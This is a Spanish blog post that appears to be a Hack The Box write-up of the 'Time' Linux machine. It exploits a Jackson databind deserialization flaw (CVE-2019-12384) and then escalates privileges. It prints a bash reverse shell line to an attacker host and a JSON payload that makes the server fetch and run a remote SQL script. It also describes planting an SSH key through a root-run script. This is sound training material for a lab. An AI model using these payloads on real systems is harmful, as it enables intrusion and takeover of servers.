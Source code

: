 ```yaml
---
layout: post
title: Resolución de Time (WriteUp)
published: false
categories: WriteUp
---
```


Time es una máquina Linux de Hack The Box cuya dificultad es “Medium”. Las instrucciones que se utilizan en esta resolución tienen en cuenta que estamos trabajando en un entorno controlado. 

![Time 01]({{ site.baseurl }}/images/timehtb01.png)

### Resolución de Time (user.txt)

En primer lugar enumeramos los puertos abiertos:

![Time 02]({{ site.baseurl }}/images/timehtb02.png)

Para posteriormente realizar un análisis, a través de nmap, de los servicios disponibles en dichos puertos:

![Time 03]({{ site.baseurl }}/images/timehtb03.png)

A través del servicio web disponible en el puerto 80 revisamos el código fuente y realizamos una enumeración en busca de rutas de interés:

![Time 04]({{ site.baseurl }}/images/timehtb04.png)

Pero no hay nada interesante en este aspecto. 

Entramos en la web y vemos que tiene un adaptador y validador de JSON, indicando que el “Validator” está en fase Beta. Lo probamos y este devuelve un error desde el cual podemos obtener más información de la herramienta utilizada:

![Time 05]({{ site.baseurl }}/images/timehtb05.png)

Buscamos vulnerabilidades relacionadas con Fasterxml Jackson: [https://www.cvedetails.com/vulnerability-list/vendor_id-15866/product_id-42991/Fasterxml-Jackson-databind.html](https://www.cvedetails.com/vulnerability-list/vendor_id-15866/product_id-42991/Fasterxml-Jackson-databind.html)

Nos quedamos con la vulnerabilidad [CVE-2019-12384](https://www.cvedetails.com/cve/CVE-2019-12384/) y buscamos información sobre su explotación, encontrando la siguiente forma de explotación que utilizaremos de base para poner en práctica: [https://github.com/jas502n/CVE-2019-12384](https://github.com/jas502n/CVE-2019-12384)

En el fichero inject.sql editamos la llamada a la shell para introducir nuestra propia shell como una ejecución inliner de bash. 
```sql
CALL SHELLEXEC(‘bash -i >& /dev/tcp/IP/PUERTO 0>&1’)
```

Este código, inject.sql, se encargará de establecer la conexión desde la víctima hacia nuestra máquina. Ahora debemos accionarlo. Para ello vamos a montar un servidor con SimpleHTTPServer de Python en local a través del puerto 8181 (por ejemplo) donde estará disponible el inject.sql.

Luego prepararemos un trigger que ejecute el script disponible en este servidor, de la siguiente forma como se indica en el GitHub explicando la vulnerabilidad:

```ruby
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://IP_ATACANTE:8181/inject.sql'"}]"
```

Nos ponemos a la escucha en nuestra máquina a través del puerto definido en inject.sql y, con el servidor activo y el puerto en escucha introducimos el trigger en la web:

![Time 06]({{ site.baseurl }}/images/timehtb06.png)

De esta forma ya tenemos acceso a la máquina víctima con el usuario pericles, pudiendo acceder a la primera flag.

### Resolución de Time (root.txt)

El análisis para buscar la escalada de privilegios en Linux podemos automatizarlo con scripts como [LinEnum](https://github.com/rebootuser/LinEnum) o [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), en este caso haciendo uso de LinPEAS vemos que nos devuelve una información aparentemente muy interesante sobre un script llamado timer_backup.sh:

![Time 07]({{ site.baseurl }}/images/timehtb07.png)

El script crea un zip desde /var/www/html y lo mueve a root:

![Time 08]({{ site.baseurl }}/images/timehtb08.png)

Como este script se ejecuta como root la idea será introducir un comando que agregue nuestra clave pública al authorized_keys de root para poder conectarnos por SSH. 

Para ello, creamos en el servidor un fichero con nuestra clave pública (key.txt) e introducimos al final del script un comando con el que leer nuestra clave pública del fichero key.txt y la inserte al final del fichero authorized_keys:

![Time 09]({{ site.baseurl }}/images/timehtb09.png)

Y utilizando la clave privada asociada a dicha clave pública ya podríamos acceder como root al servidor a través de SSH para visualizar la flag de root.txt:

![Time 10]({{ site.baseurl }}/images/timehtb10.png)
